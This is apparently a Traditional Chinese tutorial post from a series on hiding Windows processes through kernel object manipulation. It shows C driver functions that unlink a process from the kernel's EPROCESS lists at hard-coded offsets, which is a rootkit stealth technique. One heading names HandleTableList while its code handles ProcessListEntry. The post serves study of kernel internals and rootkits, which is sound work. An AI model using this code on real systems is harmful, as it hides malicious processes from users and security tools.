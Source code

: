 # 【第 25 話】DKOM 隱藏 Process（下）


## 文章大綱
在[【第 23 話】DKOM 隱藏 Process（上）](/asset/第%2023%20話)了解 DKOM 的原理，並且在[【第 24 話】DKOM 隱藏 Process（中）](/asset/第%2024%20話)用 WinDbg 實作一遍，這篇我們要寫程式自動化這個流程。


## 寫程式
程式講解會分成以下幾個部分，注意這個 PoC 只適用於 Windows 10 1709。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/HideProcess)。
- ActiveProcessLinks 斷鏈
- HandleTableList 斷鏈
- ProcessListEntry 斷鏈
- PspCidTable 清零
- Dispatcher
- 應用程式

### ActiveProcessLinks 斷鏈
ActiveProcessLinks 在 EPROCESS 的 Offset 0x2e8，取得 ActiveProcessLinks 然後改 `Flink->Blink` 和 `Blink->Flink` 斷鏈。

```c
VOID UnlinkActiveProcessLists(PEPROCESS PE)
{
    // 在 EPROCESS 的 Offset 0x2e8 取得 ActiveProcessLink
    LIST_ENTRY* ActiveProcessLink = (LIST_ENTRY*)((ULONG64)PE + 0x2e8);

    // 將 ActiveProcessLink 斷鏈
    if (ActiveProcessLink->Blink != 0 && ActiveProcessLink->Flink != 0)
    {
        ActiveProcessLink->Blink->Flink = ActiveProcessLink->Flink;
        ActiveProcessLink->Flink->Blink = ActiveProcessLink->Blink;
        ActiveProcessLink->Blink = 0;
        ActiveProcessLink->Flink = 0;
    }
}
```

### HandleTableList 斷鏈
HandleTableList 在 EPROCESS 裡的 Pcb，也是 EPROCESS 的 Offset 0x240，取得 HandleTableList 位址然後改 `Flink->Blink` 和 `Blink->Flink` 斷鏈。 

```c
VOID UnlinkProcessListEntry(PEPROCESS PE)
{
    // 取得在 EPROCESS 的 Pcb 中的 ProcessListEntry (Offset 0x240)
    LIST_ENTRY* ProcessListEntry = (LIST_ENTRY*)((ULONG64)PE + 0x240);

    // 將 ProcessListEntry 斷鏈
    if (ProcessListEntry->Blink != 0 && ProcessListEntry->Flink != 0)
    {
        ProcessListEntry->Blink->Flink = ProcessListEntry->Flink;
        ProcessListEntry->Flink->Blink = ProcessListEntry->Blink;
        ProcessListEntry->Blink = 0;
        ProcessListEntry->Flink = 0;
    }
}
```
